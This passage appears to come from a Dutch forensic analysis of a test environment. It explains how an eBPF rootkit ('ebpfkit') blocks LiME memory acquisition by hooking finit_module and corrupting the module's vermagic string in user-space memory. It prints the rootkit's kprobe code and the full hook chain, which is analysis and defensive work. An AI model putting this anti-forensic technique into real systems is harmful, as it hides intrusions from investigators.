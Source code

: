 \begin{verbatim}
SEC("kprobe/__x64_sys_finit_module")
int kprobe_finit_module(struct pt_regs *ctx) {
    u64 pid = bpf_get_current_pid_tgid();

    struct read_args_t *args = bpf_map_lookup_elem(&read_args_map, &pid);
    if (!args) return 0;

    // Overschrijf de vermagic string met een foute versie
    char fake_vermagic[] = "5.15.0-000-generic SMP mod_unload \0";

    bpf_probe_write_user(
        args->buf + VERMAGIC_OFFSET, // doel: user-space buffer van insmod
        fake_vermagic,               // bron: corrupte vermagic string
        sizeof(fake_vermagic)        // lengte
    );
    return 0;
}
\end{verbatim}

De kernel leest vervolgens de gecorrumpeerde buffer en vergelijkt de 
\texttt{vermagic}-string met de verwachte waarde:

\begin{verbatim}
Module vermagic:  "5.15.0-000-generic SMP mod_unload"  <- nep (door ebpfkit)
Kernel verwacht:  "5.15.0-179-generic SMP mod_unload"  <- echt
-> "Module has wrong symbol version"
\end{verbatim}

Dit verklaart exact de foutmelding die tijdens het onderzoek verscheen bij 
het proberen inladen van LiME. Het bestand op schijf is correct en de 
headers zijn correct geïnstalleerd, maar de rootkit corrumpeert de data 
in RAM tijdens het inladen — onzichtbaar voor de gebruiker en voor tools 
die enkel het bestandssysteem controleren.

De volledige aanvalsketen ziet er als volgt uit:

\begin{verbatim}
insmod lime-5.15.0-179-generic.ko
    |
    +-- open("lime.ko")
    |       ^ kprobe/_vfs_open [0xccbb81eb5000]
    |         sla bestandspointer op in BPF-map
    |
    +-- read(fd, buf, size)
    |       ^ kprobe/_vfs_read [0xccbb80649000]
    |         sla user-space buffer pointer op in BPF-map
    |
    +-- finit_module(fd, buf, flags)
            ^ kprobe/__x64_sys_finit_module [0xccbb80053000]
              bpf_probe_write_user(buf + vermagic_offset, fake, len)
              -> kernel leest corrupte vermagic
              -> "wrong symbol version" -> module geweigerd
\end{verbatim}

Omdat de rootkit zich in het RAM-geheugen bevindt en user-space buffers 
manipuleert zonder het bestandssysteem aan te raken, faalt elke 
acquisitiepoging via \texttt{insmod}. De oplossing in deze testomgeving 
was dan ook om de RAM-dump rechtstreeks via VirtualBox te nemen, 
waarbij de gemanipuleerde user-space laag volledig omzeild wordt.


